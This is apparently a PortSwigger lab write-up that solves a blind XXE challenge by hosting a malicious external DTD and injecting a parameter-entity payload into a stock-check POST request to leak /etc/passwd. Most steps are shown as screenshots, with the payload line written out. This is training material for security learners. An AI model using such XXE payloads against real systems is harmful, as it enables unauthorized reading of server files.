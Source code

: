 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a4840e0f-78a9-4a80-89b6-c48be78f2e46)

## Solution:

Click "Go to exploit server" and save the following malicious DTD file on your server:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/ae50a7bd-87af-44fe-89f1-30d55c292108)

When imported, this page will read the contents of /etc/passwd into the file entity, and then try to use that entity in a file path.

Click "View exploit" and take a note of the URL for your malicious DTD.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/5edf4b70-5823-4e97-a99d-c3a1dc69299c)

URL: `https://exploit-0a9300ad030fede188fa5bef01d7009f.exploit-server.net/exploit`

You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/91e6be3a-98d7-4a8d-acb3-e728a564cbaa)

Insert the following external entity definition in between the XML declaration and the stockCheck element:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/ddce7552-04c4-42f7-a480-c4ed916572b3)

Lab Solved:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/9fd64c01-b983-4c42-b0b1-f523411049b8)


